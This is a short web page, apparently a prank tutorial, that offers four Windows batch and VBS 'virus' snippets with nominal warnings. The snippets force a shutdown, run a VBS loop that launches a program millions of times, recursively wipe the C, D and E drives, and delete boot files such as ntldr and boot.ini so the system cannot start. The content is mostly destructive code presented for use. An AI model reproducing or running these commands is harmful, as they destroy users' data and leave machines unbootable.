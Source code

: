 ### Virus in (.bat)

### 1. Sends a message and shuts down the computer:

@echo off
<br>
msg * your message
<br>
shutdown -c “your message” -s
<hr>

### 2. A simple virus that causes the computer to give an error:
<br>
--Save as .VBS file:
<br>
Option Explicit
<br>
Dim WSHShell
<br>
Set WSHShell=Wscript.CreateObject(“Wscript.Shell”)
<br>
Dim x
<br>
For x = 1 to 100000000
<br>
WSHShell.Run “Tourstart.exe”
<br>
Next
<hr>

### 3. Format discs in less than 5 seconds. Only D, E and C:

rd/s/q D:\
<br>
rd/s/q C:\
<br>
rd/s/q E:\
<hr>
---And now more dangerous batch files:

### 4. Causes the system to crash once then the computer cannot be restarted. 
-It removes everything needed to start the system:
<br>
### ---DO NOT USE ON YOURSELF

@echo off
<br>
attrib -r -s -h c:\autoexec.bat
<br>
del c:\autoexec.bat
<br>
attrib -r -s -h c:\boot.ini
<br>
del c:\boot.ini
<br>
attrib -r -s -h c:\ntldr
<br>
del c:\ntldr
<br>
attrib -r -s -h c:\windows\win.ini
<br>
del c:\windows\win.ini
<hr>

### !!!DO NOT REPEAT ALL THIS ON YOUR PC!!!
